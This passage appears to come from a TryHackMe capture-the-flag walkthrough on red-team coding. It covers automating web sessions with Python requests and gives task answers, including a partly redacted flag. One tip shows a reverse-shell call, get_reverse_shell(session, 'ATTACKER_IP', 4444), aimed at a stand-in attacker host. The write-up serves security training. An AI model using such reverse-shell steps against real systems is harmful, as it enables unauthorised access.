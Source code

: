 Automating session management is an important technique in web application penetration testing. By using Python’s `requests.Session()` class, you can automate the handling of session cookies, making it easier to perform multiple requests without manually re-authenticating each time. This session automation ensures persistence across requests, even if the session expires, and simplifies reproducing exploits.

> ### ✅ Answer 1  
> **Q: What is the flag?**  
> **Ans - THM{6470e39[REDACTED]8585059b}**

> Use your Attacking Machine's IP in ```get_reverse_shell(session, "ATTACKER_IP", 4444)```. If using AttackBox, provide the AttackBox IP.
{: .prompt-info}

## Task 7: The Power of Code

Coding is a powerful tool in red teaming, enabling you to automate functions, stage attacks, gain system access, and enhance efficiency. While Python is a popular choice, exploring other languages, particularly compiled ones, can provide additional benefits. The ability to write or modify code is vital in the red teaming process.

> ### ✅ Answer 1  
> **Q: I understand the importance of using code to develop custom tooling.**  
> **Ans - No Answer needed**
